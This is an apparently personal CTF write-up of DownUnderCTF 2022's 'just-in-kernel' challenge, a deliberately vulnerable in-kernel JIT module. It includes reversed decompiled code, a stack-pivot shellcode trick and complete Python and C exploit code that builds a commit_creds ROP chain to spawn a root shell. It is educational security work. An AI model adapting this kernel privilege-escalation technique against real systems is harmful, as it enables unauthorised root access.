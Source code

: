 #+title: DownUnderCTF 2022 just-in-kernel Writeup
#+date: 2022-09-25T00:11:54-07:00
#+tags[]: ctf writeup binary exploitation kernel ROP

=just-in-kernel= was a kernel exploitation problem in DownUnderCTF 2022, and had 11 solves by the end of the CTF. We were provided a kernel =bzImage=, an =initramfs.cpio.gz= file, a =launch.sh= script to launch the kernel in QEMU, and the following prompt:
#+begin_quote
A just-in-time compiler implemented completely within the kernel, wow! It's pretty limited in terms of functionality so it must be memory safe, right?
#+end_quote

# more

{{< toc >}}

* 0x01: Setting up our Environment

First we examine =launch.sh=:
#+begin_src bash :filename launch.sh
#!/bin/sh

/usr/bin/qemu-system-x86_64 \
    -m 64M \
    -kernel $PWD/bzImage \
    -initrd $PWD/initramfs.cpio.gz \
    -nographic \
    -monitor none \
    -no-reboot \
    -cpu kvm64,+smep,+smap \
    -append "console=ttyS0 nokaslr quiet" $@
#+end_src

We see that SMEP and SMAP are both enabled, but KASLR is disabled.

After running =./launch.sh=, we can check the kernel version:
#+begin_src console
$ uname -a
Linux (none) 5.4.211 #2 SMP Thu Aug 25 20:41:02 EDT 2022 x86_64 GNU/Linux
#+end_src

Linux 5.4 is quite old at this point, but it's still an LTS kernel and this was a relatively recent release of it, so the intended solution is likely not a 0-day or n-day.

We see a =/flag.txt= file with root permissions that we can't read (and the one provided to us isn't the real flag anyway). We also see two other interesting files on the file system: =/challenge.ko= and =/proc/challenge=. Let's extract the initramfs to get the =challenge.ko= kernel module:
#+begin_src bash
mkdir initramfs && cd initramfs
zcat ../initramfs.cpio.gz | cpio --extract --make-directories --format=newc --no-absolute-filenames
#+end_src

Before reversing the kernel module, there's two changes to the initramfs we should make first. First, change the line in =init= that reads =setuidgid 1000 /bin/sh= to just =/bin/sh=. This will give us root locally, which will be helpful in developing our exploit for reasons explained later.

Second, it will be easier to pass files to the VM if we setup a shared folder, so modify the =init= script in the initramfs to include this line:
#+begin_src bash
mount -t 9p -o trans=virtio,version=9p2000.L shared /shared
#+end_src

Outside of the initramfs folder, make a folder called =shared= which we will use to pass the VM files.

Now we can recompress the initramfs folder:
#+begin_src bash
# This is run from inside the initramfs directory
find . -print0 | cpio --null --create --verbose --format=newc | gzip --best > ../initramfs-patched.cpio.gz
#+end_src

Finally, we need to update the =launch.sh= script to make use of this patched initramfs and mount the shared folder. We also add in the ability to pass additional arguments to QEMU (see the =$@= at the end), so we can start the GDB server more easily:
#+begin_src bash :filename launch.sh
#!/bin/sh

/usr/bin/qemu-system-x86_64 \
    -m 64M \
    -kernel $PWD/bzImage \
    -initrd $PWD/initramfs-shared.cpio.gz \
    -nographic \
    -monitor none \
    -no-reboot \
    -cpu kvm64,+smep,+smap \
    -virtfs local,security_model=mapped-xattr,path=./shared,mount_tag=shared \
    -append "console=ttyS0 nokaslr quiet" $@
#+end_src

At this point, run =./launch.sh= and make sure that we can transfer files through the shared directory, and that we have root in the VM.

* 0x02: Reversing the Module

I initially attempted to use Ghidra to reverse =challenge.ko=, but Ghidra had some issues loading the ELF sections at the right addresses, and attempting to modify these load addresses broke some things, so I switched to IDA. It should be possible to reverse the module in Ghidra, but you may need to spend a bit of time configuring the load addresses.

Looking at =init_module=, we see that a new file at =/proc/challenge= using the =proc_create= kernel API. The =file_operations= struct registered for this file contains four handlers: =challenge_read=, =challenge_write=, =challenge_open=, and =challenge_release=. The interesting one here is =challenge_write=:

#+begin_src c
__int64 __fastcall challenge_write(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  char *v3; // rax
  int v4; // ecx
  unsigned int v5; // edx
  char v7[1024]; // [rsp+0h] [rbp-410h] BYREF
  unsigned __int64 v8; // [rsp+400h] [rbp-10h]

  v8 = __readgsqword(0x28u);
  if ( a3 > 1024 )
    a3 = 1024LL;
  if ( copy_from_user(v7, a2, a3) || !(unsigned int)exec_user_data(v7) )
    return -22LL;
  v3 = v7;
  do
  {
    v4 = *(_DWORD *)v3;
    v3 += 4;
    v5 = ~v4 & (v4 - 0x1010101) & 0x80808080;
  }
  while ( !v5 );
  if ( (~v4 & (v4 - 0x1010101) & 0x8080) == 0 )
    v5 >>= 16;
  if ( (~v4 & (v4 - 0x1010101) & 0x8080) == 0 )
    v3 += 2;
  return &v3[-__CFADD__((_BYTE)v5, (_BYTE)v5) - 3] - v7;
}
#+end_src

The important parts here are that we can pass in 1024 bytes, which get copied into kernel memory and then passed to =exec_user_data=. The rest of the code is not relevant, as it's just an optimized version of =strlen()=.

Looking at =exec_user_data= we see:
#+begin_src c
__int64 __fastcall exec_user_data(char *input)
{
  void (*code_buf)(void); // rax
  __int64 v3; // r8
  __int64 v4; // r9
  void (*code)(void); // rbx
  unsigned __int64 num_insns; // [rsp+0h] [rbp-978h] BYREF
  int insns[600]; // [rsp+8h] [rbp-970h] BYREF
  unsigned __int64 v8; // [rsp+968h] [rbp-10h]

  v8 = __readgsqword(0x28u);
  num_insns = 0LL;
  if ( !(unsigned int)instructions_parse((__int64)insns, input, (__int64 *)&num_insns) )
    return 0LL;
  code_buf = (void (*)(void))_vmalloc(4096LL, 3264LL, _default_kernel_pte_mask & 0x163);
  code = code_buf;
  if ( !code_buf || !(unsigned int)compile_instructions(insns, code_buf, num_insns, (__int64)code_buf, v3, v4) )
    return 0LL;
  code();
  return 1LL;
}
#+end_src

So it seems like we're supposed to input some instructions, which get parsed into some intermediate representation, these instructions then get compiled to actual x86 code, which is put in a memory region allocated by =vmalloc= and then executed.

Let's look at =instruction_parse= first:
#+begin_src c
__int64 __fastcall instructions_parse(__int64 insns, char *input, __int64 *num_insns)
{
  char *v5; // rax
  char *v6; // r12
  __int64 i; // rbx
  char *v8; // rax
  char **j; // r15
  __int64 result; // rax
  char *input_; // [rsp+0h] [rbp-378h] BYREF
  __int64 v12[2]; // [rsp+8h] [rbp-370h] BYREF
  __int64 v13; // [rsp+18h] [rbp-360h]
  _QWORD v14[107]; // [rsp+20h] [rbp-358h] BYREF

  input_ = input;
  v14[100] = __readgsqword(0x28u);
  v5 = strsep(&input_, "\n");
  if ( !v5 )
    return 0LL;
  v6 = v5;
  for ( i = 1LL; ; v14[i - 1] = v8 )
  {
    v8 = strsep(&input_, "\n");
    if ( !v8 || i == 100 )
      break;
    ++i;
  }
  for ( j = (char **)v14; ; v6 = *j )
  {
    result = instruction_from_str((__int64)v12, v6);
    if ( !(_DWORD)result )
      break;
    ++j;
    insns += 24LL;
    *(_QWORD *)(insns - 24) = v12[0];
    *(_QWORD *)(insns - 16) = v12[1];
    *(_QWORD *)(insns - 8) = v13;
    if ( j == &v14[i] )
    {
      *num_insns = i;
      return 1LL;
    }
  }
  return result;
}
#+end_src

The first loop is splitting our input by newlines (=strsep= will write a null byte at each newline), and counting the number of instructions we've passed in, up to a maximum of 100. Once it has the count of instructions, it iterates that many times over the string, parsing the instruction text into some bytecode format and storing in the =insns= stack buffer, which was pass in from the parent function.

Skipping over some unimportant details in =instruction_from_str=, we eventually end up at the =mnemonic_from_str= function and the =operand_from_str= function, which tells us about the format of the assembly instructions:
#+begin_src c
__int64 __fastcall mnemonic_from_str(const char *a1)
{
  unsigned int v1; // er8

  v1 = 0;
  if ( strcmp(a1, "mve") )
  {
    v1 = 1;
    if ( strcmp(a1, "add") )
    {
      v1 = 2;
      if ( strcmp(a1, "cmp") )
      {
        v1 = 3;
        if ( strcmp(a1, "jmp") )
        {
          v1 = 4;
          if ( strcmp(a1, "jeq") )
          {
            v1 = 5;
            if ( strcmp(a1, "jgt") )
              return (unsigned int)(strcmp(a1, "jlt") != 0) + 6;
          }
        }
      }
    }
  }
  return v1;
}

__int64 __fastcall operand_from_str(unsigned __int8 *a1)
{
  int v1; // eax
  __int64 v2; // r8
  int v4; // eax
  __int64 v5[2]; // [rsp+0h] [rbp-10h] BYREF

  v5[1] = __readgsqword(0x28u);
  v1 = *a1;
  v5[0] = 0LL;
  if ( v1 != 'a' || (v2 = 3LL, a1[1]) )
  {
    if ( v1 == 'b' )
    {
      v2 = 5LL;
      if ( !a1[1] )
        return v2;
    }
    else if ( v1 == 'c' )
    {
      v2 = 7LL;
      if ( !a1[1] )
        return v2;
    }
    if ( v1 != 'd' || (v2 = 9LL, a1[1]) )
    {
      v4 = kstrtoull(a1, 10LL, v5);
      v2 = 0LL;
      if ( !v4 )
        return 2 * v5[0];
    }
  }
  return v2;
}
#+end_src

So the instructions we have available are =mve=, =add=, =cmp=, =jmp=, =jeq=, =jgt=, and =jlt=. There are four "registers", =a=, =b=, =c=, and =d=. If you don't input one of those registers, =kstrtoull= is called on the input, and if the function succeeds, we return twice that value as an immediate operand.

The doubling/left shifting by one bit here was confusing to me for a while, but after some time I realized that the lower bit was used to store whether the operand was a register or immediate in the intermediate byte code. Since we left shift immediates by one, the bottom bit of an immediate operand is always zero. And note that all of the registers return odd values: 3, 5, 7, and 9. So when compiling the byte code, the bottom bit can be checked to see if it's one, which would indicate one of these registers (which we'll see soon). The compilation code will also need to right shift these operands by one to get the actual value, after it's finished checking that bottom bit. There's one important implication of this: the maximum size of an immediate operand is actually 63 bits, not 64 bits, as if you try to input 64 bits the top bit will end up getting cleared.

There's actual another limitation on operands, but only for =jmp=. Once the operand immediate value is parsed and returned back to =instruction_from_str=, the jump operand is anded by =0x1FFEuLL=:
#+begin_src c
*(_QWORD *)(a1 + 8) &= 0x1FFEuLL;
#+end_src

This limits the range we can jump to 4095, after right shifting the result by one to undo the previous left shift (remember that we allocated 4096 bytes for the compiled code with =vmalloc=).

We can now take a look at the compilation code, starting with =compile_instructions=:
#+begin_src c
__int64 __fastcall compile_instructions(
        int *parsed_insns,
        _BYTE *code_buf,
        unsigned __int64 num_insns,
        __int64 buf_ptr,
        __int64 a5,
        __int64 a6)
{
  _BYTE *code_buf_; // r14
  unsigned __int64 num_insns_; // r12
  _BYTE *v8; // r13
  __int64 i; // rbp
  int opcode; // eax
  unsigned __int64 v13; // rax
  unsigned __int64 v14; // rdx
  unsigned __int64 v15; // rax
  unsigned __int64 v16; // rdx

  code_buf_ = code_buf;
  if ( !num_insns )
  {
LABEL_10:
    *code_buf_ = 0xC3;
    return 1LL;
  }
  num_insns_ = num_insns;
  v8 = (_BYTE *)buf_ptr;
  i = 0LL;
  while ( 1 )
  {
    opcode = *parsed_insns;
    if ( !*parsed_insns )
    {
      if ( !(unsigned int)compile_mve(
                            (__int64)code_buf_,
                            (__int64)code_buf,
                            num_insns,
                            buf_ptr,
                            a5,
                            a6,
                            *(_QWORD *)parsed_insns,
                            *((_QWORD *)parsed_insns + 1),
                            *((_QWORD *)parsed_insns + 2)) )
        return 0LL;
      code_buf_ += 10;
      goto LABEL_9;
    }
    if ( opcode == 1 )
      break;
    if ( opcode == 2 )
    {
      v15 = *((_QWORD *)parsed_insns + 1);
      v16 = *((_QWORD *)parsed_insns + 2);
      buf_ptr = (unsigned __int16)LC1;
      if ( (v15 & 1) == 0 || (v16 & 1) == 0 )
        return 0LL;
      num_insns = v16 >> 1;
      code_buf_ += 2;
      BYTE1(buf_ptr) = reg_cmp[5 * (v15 >> 1) + num_insns];
      *((_WORD *)code_buf_ - 1) = buf_ptr;
    }
    else
    {
      if ( opcode != 3 )
        return 0LL;
      code_buf = v8;
      if ( !(unsigned int)compile_jmp(
                            (__int64)code_buf_,
                            (__int64)v8,
                            num_insns,
                            buf_ptr,
                            a5,
                            a6,
                            *(_QWORD *)parsed_insns,
                            *((_QWORD *)parsed_insns + 1),
                            *((_QWORD *)parsed_insns + 2)) )
        return 0LL;
      code_buf_ += 12;
    }
LABEL_9:
    ++i;
    parsed_insns += 6;
    if ( num_insns_ == i )
      goto LABEL_10;
  }
  v13 = *((_QWORD *)parsed_insns + 1);
  v14 = *((_QWORD *)parsed_insns + 2);
  buf_ptr = (unsigned __int16)LC0;
  if ( (v13 & 1) != 0 && (v14 & 1) != 0 )
  {
    num_insns = v14 >> 1;
    code_buf_ += 2;
    BYTE1(buf_ptr) = reg_cmp[5 * (v13 >> 1) + num_insns];
    *((_WORD *)code_buf_ - 1) = buf_ptr;
    goto LABEL_9;
  }
  return 0LL;
}
#+end_src

Let's take a look at =compile_mve= and =compile_jmp=:
#+begin_src c
__int64 __fastcall compile_mve(
        __int64 code_buf,
        __int64 buf__,
        __int64 num_insns,
        __int64 buf,
        __int64 a5,
        __int64 a6,
        __int16 insn,
        unsigned __int64 arg1,
        unsigned __int64 arg2)
{
  unsigned int v9; // er8
  __int16 v10; // cx
  __int64 i; // rax
  char v13[2]; // [rsp+0h] [rbp-22h]
  unsigned __int64 v14; // [rsp+2h] [rbp-20h]
  __int64 v15; // [rsp+10h] [rbp-12h]
  __int16 v16; // [rsp+18h] [rbp-Ah]
  unsigned __int64 v17; // [rsp+1Ah] [rbp-8h]

  v9 = 0;
  v17 = __readgsqword(0x28u);
  v16 = 0;
  v15 = 0LL;
  if ( (arg1 & 1) != 0 && (arg2 & 1) == 0 )
  {
    v14 = arg2 >> 1;
    v10 = reg_mve[arg1 >> 1];
    for ( i = 2LL; i != 10; ++i )
      *((_BYTE *)&v15 + i) = v13[i];
    LOWORD(v15) = v10;
    v9 = 1;
    *(_QWORD *)code_buf = v15;
    *(_WORD *)(code_buf + 8) = v16;
  }
  return v9;
}

__int64 __fastcall compile_jmp(
        __int64 a1,
        __int64 code_buf,
        __int64 a3,
        __int64 a4,
        __int64 a5,
        __int64 a6,
        __int16 a7,
        unsigned __int64 arg1,
        __int64 a9)
{
  __int64 i; // rax
  unsigned int v10; // er8
  char input[10]; // [rsp+0h] [rbp-22h]
  char v13[12]; // [rsp+Eh] [rbp-14h]
  unsigned __int64 canary; // [rsp+1Ah] [rbp-8h]

  canary = __readgsqword(0x28u);
  ,*(_DWORD *)&v13[8] = 0;
  ,*(_QWORD *)v13 = 0xBF48LL;
  if ( a9 | arg1 & 1 )
  {
    return 0;
  }
  else
  {
    ,*(_QWORD *)&input[2] = code_buf + (arg1 >> 1);
    for ( i = 2LL; i != 10; ++i )
      v13[i] = input[i];
    v10 = 1;
    ,*(_WORD *)&v13[10] = 0xE7FF;
    ,*(_QWORD *)a1 = *(_QWORD *)v13;
    ,*(_DWORD *)(a1 + 8) = *(_DWORD *)&v13[8];
  }
  return v10;
}
#+end_src

The first thing to note about both of these functions is how they handle the instruction operands. In =compile_mve=, we see ~if ( (arg1 & 1) != 0 && (arg2 & 1) == 0 )~, which, as mentioned earlier, is checking the bottom bit to make sure that =arg1= is a register and =arg2= is an immediate. So we can only do move instructions of the form =mve a 1234=. Similarly, in =compile_jmp=, we see =if ( a9 | arg1 & 1 ) { return 0; }=, which checks that if the first argument is non-zero, or if the first argument is a register, we should return. So we can only do jump instructions of the form =jmp 1234=.

Both functions than create actual x86 instructions from the operands. The =reg_mve= global array contains the opcodes =48b8=, =48bb=, =48b9=, and =48ba0=, which translate to =movabs rax, imm64=, =movabs rbx, imm64=, =movabs rcx, imm64=, and =movabs rdx, imm64=. The =imm64= is the operand we provided, and it's copied into the next 8 bytes of the instruction. The =jmp= function is similar, but it first puts the bytes =48bf=, followed by our 8 byte immediate operand, followed by =ffe7=, which results in this assembly:
#+begin_quote asm
   0:    48 bf 00 00 00 00 00 00 00 00    movabs rdi,  0x0
   a:    ff e7                            jmp    rdi
#+end_quote

Note that the jump operand is relative to the start of the code, and remember from =instruction_from_str= the jump distance is limited to =4095=.

The rest of the compilation code is similar to this, so there's no need to reverse it here. We can now start thinking about how we want to exploit this.

* 0x03: Exploitation Plan

The first observation I had was while the code that limits the instructions we can pass in to the seven instructions mentioned earlier, there's minimal validation on the values in the operands. There is also no validation that the target of jump instructions actually end up in the beginning of another instruction or in the middle of one. This means we can put shellcode in the immediate operands, and then jump to it with a =jmp= instruction.

The problem is that we only have 8 bytes we can use for shellcode in instructions like =mve= and =jmp=, and it's actually only 63 bits due to the shifting described earlier. Those 8 bytes are followed by some bytes for the next actual instructions opcode, so we have limited control over them.

Our end goal here is to execute the standard =commit_creds(prepare_kernel_cred(0))= instructions (see [[#headline-8][References]] for more information) to give an initially non-root process root credentials (note that we can't do ret2usr because of SMEP). But there's no way we can fit the code for that in 8 bytes.

The obvious workaround here is to smuggle in multiple snippets of shellcode in multiple instruction operands, and jump from one to the next, skipping over all the operand bytes if the instructions in-between. It turns out this was the intended solution, but I really didn't want to write that much scattered shellcode.

I had another observation which led to an alternate solution. If you look back at the code for =instructions_parse=, you can see that while it breaks and returns an error code if it finds an invalid instruction, it only does this for the first 100 instructions. This means we can put whatever we want after these instructions, and the first 100 instructions will still execute correctly. We can't put shellcode here, as this memory is not executable, but we can instead put a ROP chain here! Then if we can do a stack pivot in the 8 bytes of an operand, we can pivot the stack to our ROP chain, and then execute the =commit_creds= ROP chain.

Note that this is only possible because KASLR is disabled. While the solution of embedding all of the shellcode in the operands and jumping between them would probably work regardless of ASLR, in a CTF time is everything, and I chose to go with the ROP solution because I knew I could get it done faster.
    
After the CTF, chatting with the author revealed that this was an unintended solution, as the author did not mean for any bytes of the input buffer to go unchecked.

* 0x04: RIP Control

Let's start with just getting the stack pivot to our ROP chain working. To do this, we first need to find the address we want to store our ROP chain in.

First launch the VM and run =lsmod=:
#+begin_src console
/ # lsmod
challenge 16384 0 - Live 0xffffffffc0000000 (O)
#+end_src

We can see the challenge module is loaded at address 0xffffffffc0000000. This is one reason we gave ourselves root earlier, as without it we wouldn't be able to get these addresses.

Now that we know the load address, we can load our kernel module at that address in GDB to more easily set breakpoints. Launch the VM now like this:
#+begin_src bash
./launch.sh -s -S
#+end_src

Because of our modifications earlier to allow passing in arbitrary QEMU arguments, this command will start the kernel with a gdbserver waiting for a connection. Because we'll be running the commands to connect to QEMU often, instead of typing them in GDB I opted to put them in a =.gdbinit= script in the same folder, which will be loaded whenever I run GDB. This script looks like this:
#+begin_src gdb-script
file ./vmlinux

target remote :1234
add-symbol-file initramfs/challenge.ko 0xffffffffc0000000

break challenge_write

continue
#+end_src

After connecting with GDB, we can trigger our break point by sending in some input to =/proc/challenge=:
#+begin_src bash
echo foo > /proc/challenge
#+end_src

If we step a few instructions, stopping right after the first call, we'll see the return value of =copy_from_user= in =rax=:
#+attr_html: :width 720
#+caption: The input buffer address is in =rax=.
[[/images/ductf/input-buffer-address.png]]

(Note that while this address should be constant across executions of the VM, it seemed to change when I changed the initramfs. After developing my exploit with the patched initramfs, I switched back to the real initramfs to get the actual address. This is the address used in the rest of the writeup).

This is the input buffer that will contain our ROP chain. Now that we have this address, let's work on figuring out how to pivot the stack to this buffer.

If the address of the input buffer is 0xffffc900001afaa0, and let's say that 100 instructions takes around 0x380 bytes, the our ROP chain can start at 0xffffc900001a7e20. We would like to do =mov rsp, 0xffffc900001afe20=, this is too big to fit in 8 bytes of shellcode. So we want something like:
#+begin_src asm
mov rdx, 0xffffc900001a7e20
mov rsp, rdx
ret
#+end_src

We could try use a regular =mve= instruction to set =rdx= to this value, like =mve rdx 0xffffc900001a7e20=, but remember that the immediate operands are only 63 bits due to the shifting, so this won't work. However, we could try to use the =add= instruction, but it turns out those instructions operate on 32-bit registers, i.e. =edx= instead of =rdx=, so that won't work. Luckly, the assembly for =add rdx, rax= is only three bytes: =4801c2=. So we can first put half of the address in =rdx= using a regular =mve= instruction, and then use 3 bytes of our immediate operand to do the =add=, and now we have the address of our ROP chain in =rdx=. Finally, the opcodes for =mov rsp, rdx; ret= fit in the next four bytes: =4889d4c3=.

Now that we have our stack pivot shellcode, all that's left is to jump to it. This is just a bit of math to calculate how many bytes of compiled instructions we've output so far, plus an additional two bytes for the following =mve= instruction, and that address is where our shellcode operand is located. Finally, we can put the instruction with the operand containing the shellcode after the =jmp= instruction, pad up to 101 instructions with =cmp a a= (which is only takes up two bytes), and the comes our ROP chain. Putting it all together, we have this:
#+begin_src python
def main():
    payload = []

    # The address of the instructions we input to the kernel module
    #input_buf = 0xffffc900001afaa0
    input_buf = 0xffffc900001af898

    # In our case, the ROP starts at 859 bytes, the 0x380 was just an example
    rop_addr = input_buf + 859

    # We 16 byte align the ROP chain
    padding = 16 - (rop_addr % 16)
    rop_addr += padding

    # We can't put the whole ROP chain address in a register, so we have to split it
    rop1 = rop_addr // 2
    rop2 = rop_addr // 2

    # If the ROP chain address is odd, add one to one of the two halves. This
    # isn't really necessary since we're aligning to 16 bytes, but it was useful
    # when testing the chain before aligning.
    if (rop_addr % 2 != 0):
        rop2 += 1

    # mov rdx, ROP1
    payload.append(b'mve d %d' % rop1)

    # mov rax, ROP2
    payload.append(b'mve a %d' % rop2)

    # Shellcode is at mve + mve + jmp + mve[:2] = 10 + 10 + 12 + 2 = 34
    payload.append(b'jmp 34')

    # SC:
    # # 4801c2
    # add rdx, rax
    # # 4889d4
    # mov rsp, rdx
    # # c3
    # ret

    # mov rbx, 0xc3d48948c20148
    payload.append(b'mve b 55121306554859848')

    # Repeat `cmp a a` until we have 101 instructions
    for i in range(101 - len(payload)):
        payload.append(b'cmp a a')

    # Padding so that $rsp is 16 byte aligned
    if padding != 0:
        payload.append(b'A'*(padding-1))

    # The dummy address we want to set RIP to, just for testing
    payload.append(b'A'*8)

    with open('./shared/payload.txt', 'wb') as f:
        f.write(b'\n'.join(payload))
#+end_src

The payload is accessible from =/shared/payload.txt= in the VM. Sending this to =/proc/challenge/=, we can confirm that we now control RIP:
#+begin_src console
/ # cat /shared/payload.txt > /proc/challenge
[   17.993953] general protection fault: 0000 [#1] SMP PTI
[   17.995769] CPU: 0 PID: 77 Comm: cat Tainted: G           O      5.4.211 #2
[   17.996050] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
[   17.996922] RIP: 0010:0x4141414141414141
#+end_src

* 0x05: ROP Chain

To construct our ROP chain, we first need the address of =commit_creds= and =prepare_kernel_cred=. Because we've patched the initramfs so we're root, we can get these addresses from =/proc/kallsyms= (note that the provided kernel image was stripped):
#+begin_src console
/ # cat /proc/kallsyms | grep -E 'commit_creds|prepare_kernel_cred'
ffffffff810848f0 T commit_creds
ffffffff81084d30 T prepare_kernel_cred
#+end_src

Now we need to find a few gadgets. One issue with finding gadgets in a kernel =vmlinux= is the fact that many gadgets shown by gadget finding tools lie in non-executable regions of memory. To get around this, I first used [[https://github.com/pwndbg/pwndbg][pwndbg]]'s =vmmap= command to find where the executable region of memory was mapped, and this one seemed correct:
#+begin_src
0xffffffff81000000 0xffffffff81e05000 r-xp   e05000 0      <pt>
#+end_src

Now we can use a ROP gadget finding tool, but filter for only gadgets that contain =ffff81= in the address:
#+begin_src console
$ ROPgadget --binary vmlinux > gadgets.txt
$ rg fffff81 gadgets.txt | rg 'pop rdi ; ret'
#+end_src

(=rg= here is [[https://github.com/BurntSushi/ripgrep][ripgrep]])

We need a =pop rdi= gadget to set the argument to =prepare_kernel_cred= to zero, followed by a gadget to move the return value in =rax= to =rdi=. The =pop rdi= gadget can be found with the command above, and I was able to skip the second gadget, as luckily after =prepare_kernel_cred= returned, the value in =rdi= was already the same value as in =rax=.

The last two gadgets we need are =swapgs=, which can be found easily by grepping the =gadgets.txt= file above, and =iretq=, which can be found with =objdump=:
#+begin_src console
$ objdump -j .text -d ./vmlinux | grep iretq | head -1
#+end_src

If you're not familiar with how to construct this type of ROP chain, see the links in [[#headline-8][References]].

* 0x06: Getting a Shell

This post is already getting long, so I'll skip the details in this final step, as it's already covered in detail in [[#headline-8][many other articles]].

Here's the final Python script, combining the earlier stack pivot code with some new ROP code:
#+begin_src python
def main():
    payload = []

    # The address of the instructions we input to the kernel module
    #input_buf = 0xffffc900001afaa0
    input_buf = 0xffffc900001af898

    # In our case, the ROP starts at 859 bytes, the 0x380 was just an example
    rop_addr = input_buf + 859

    # We 16 byte align the ROP chain
    padding = 16 - (rop_addr % 16)
    rop_addr += padding

    # We can't put the whole ROP chain address in a register, so we have to split it
    rop1 = rop_addr // 2
    rop2 = rop_addr // 2

    # If the ROP chain address is odd, add one to one of the two halves. This
    # isn't really necessary since we're aligning to 16 bytes, but it was useful
    # when testing the chain before aligning.
    if (rop_addr % 2 != 0):
        rop2 += 1

    # mov rdx, ROP1
    payload.append(b'mve d %d' % rop1)

    # mov rax, ROP2
    payload.append(b'mve a %d' % rop2)

    # Shellcode is at mve + mve + jmp + mve[:2] = 10 + 10 + 12 + 2 = 34
    payload.append(b'jmp 34')

    # SC:
    # # 4801c2
    # add rdx, rax
    # # 4889d4
    # mov rsp, rdx
    # # c3
    # ret

    # mov rbx, 0xc3d48948c20148
    payload.append(b'mve b 55121306554859848')

    # Repeat `cmp a a` until we have 101 instructions
    for i in range(101 - len(payload)):
        payload.append(b'cmp a a')

    # Padding so that $rsp is 16 byte aligned
    if padding != 0:
        payload.append(b'A'*(padding-1))

    ###################################################
    #                        ROP                      #
    ###################################################

    # 0xffffffff810012b8 : pop rdi ; ret
    pop_rdi = 0xffffffff810012b8

    # From /proc/kallsyms
    prepare_kernel_cred = 0xffffffff81084d30
    commit_creds = 0xffffffff810848f0

    # 0xffffffff81c00eaa : swapgs ; popfq ; ret
    swapgs = 0xffffffff81c00eaa

    # objdump -j .text -d ~/vmlinux | grep iretq | head -1
    # 0xffffffff81022a32 : iretq
    iretq = 0xffffffff81022a32

    chain = flat(pop_rdi, 0, prepare_kernel_cred)

    # rdi already contains the same value as rax
    chain += p64(commit_creds)

    chain += flat(swapgs, 0, iretq)

    # We still need to add on some registers, but we'll do that in the C program
    payload.append(chain)

    with open('./shared/payload.txt', 'wb') as f:
        f.write(b'\n'.join(payload))

    print(len(b'\n'.join(payload)))

if __name__ == '__main__':
    main()
#+end_src

The final step is calling our payload from a C program, and setting up a few values on the stack after our ROP chain, so that we return to a function in our code that launches a shell (yes, the =save_state= and =shell= functions are shamelessly stolen from other places on the internet):
#+begin_src c
#include <sys/mman.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>

unsigned long user_cs, user_ss, user_rflags;

static void save_state() {
        asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
}

void shell() {
    puts("[*] Hello from user land!");
    uid_t uid = getuid();
    if (uid == 0) {
        printf("[+] UID: %d, got root!\n", uid);
    } else {
        printf("[!] UID: %d, we root-less :(!\n", uid);
        exit(-1);
    }
    system("/bin/sh");
}

int main() {
  int fd = open("./payload.txt", O_RDONLY);
  char payload[1024] = { 0 };

  int res = read(fd, payload, sizeof(payload));
  if (res <= 0) {
    perror("read");
  }
  close(fd);

  save_state();

  unsigned long* p = (unsigned long*)&payload[res];

  void* map = mmap(0, 0x2000, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANONYMOUS, -1, 0);
  if (map == -1) {
    perror("mmap");
  }
  map += 0x1000;

  *p++ = (unsigned long)&shell;
  printf("%lx\n", *(p - 1));
  *p++ = user_cs;
  printf("%lx\n", *(p - 1));
  *p++ = user_rflags;
  printf("%lx\n", *(p - 1));
  *p++ = ((unsigned long)&fd) & ~0xF;
  printf("%lx\n", *(p - 1));
  *p++ = user_ss;
  printf("%lx\n", *(p - 1));

  int num_bytes = (uintptr_t)p - (uintptr_t)payload;
  printf("Sending %d bytes\n", num_bytes);

  // write(1, payload, num_bytes);

  fd = open("/proc/challenge", O_WRONLY);
  if (fd < 0) {
    perror("open");
  }
  printf("%d\n", fd);
  res = write(fd, payload, num_bytes);
  if (res < 0) {
    perror("write");
  }
}
#+end_src

So RIP will point to our =shell= function, and the stack will be some region we've mmap'd.

Now all we need to do is run this on the server. To make the size of the binary as small as possible, I used =musl-gcc= to compile it:
#+begin_src console
$ musl-gcc solve.c -static -o ./shared/solve
#+end_src

